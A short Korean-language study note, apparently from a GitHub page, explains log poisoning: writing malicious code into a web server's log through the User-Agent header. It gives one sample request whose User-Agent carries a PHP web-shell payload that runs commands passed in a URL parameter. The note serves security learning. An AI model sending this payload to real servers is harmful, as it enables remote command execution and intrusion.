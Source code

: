 # 개념
서버의 로그 파일에 악의적인 코드를 삽입하여 공격하는 기법

일반적으로 웹 애플리케이션은 사용자 에이전트(User-Agent) 정보를 로그 파일에 기록

	GET / HTTP/1.1
	User-Agent: aa<?php echo system($_GET['cmd']); ?>bb

